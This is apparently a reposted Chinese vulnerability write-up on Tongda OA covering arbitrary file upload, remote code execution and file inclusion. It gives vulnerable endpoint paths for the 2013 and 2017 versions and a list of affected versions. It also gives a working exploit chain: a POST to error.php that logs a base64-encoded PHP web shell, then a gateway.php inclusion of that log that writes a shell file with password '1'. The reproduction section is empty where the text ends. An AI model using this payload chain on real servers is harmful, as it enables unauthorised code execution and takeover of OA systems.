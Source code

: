 # 通达oa 任意文件上传+rce+文件包含

> 原文：[https://www.zhihuifly.com/t/topic/3343](https://www.zhihuifly.com/t/topic/3343)

# 通达oa 任意文件上传+rce+文件包含

## 一、漏洞简介

有些版本gateway.php路径不同

例如2013：

```
http://www.0-sec.org/ispirit/im/upload.php
http://www.0-sec.org/ispirit/interface/gateway.php 
```

例如2017：

```
http://www.0-sec.org/ispirit/im/upload.php
http://www.0-sec.org/mac/gateway.php `C:\MYOA>dir /s /b gateway.php

C:\MYOA\webroot\mac\gateway.php` 
```

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

```
http://www.0-sec.org/api/ddsuite/error.php

POST:message=<?php file_put_contents(“2.php”,base64_decode(“PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4=”));?>52011

然后包含

[http://www.0-sec.org/mac/gateway.php](http://www.0-sec.org/mac/gateway.php)

POST:json={“url”:"…/…/logs/oa/2003/dd_error.log"} `在http://192.168.124.138/mac/2.php就是shell密码1` 
```

## 二、漏洞影响

V11版
2017版
2016版
2015版
2013增强版
2013版

## 三、复现过程
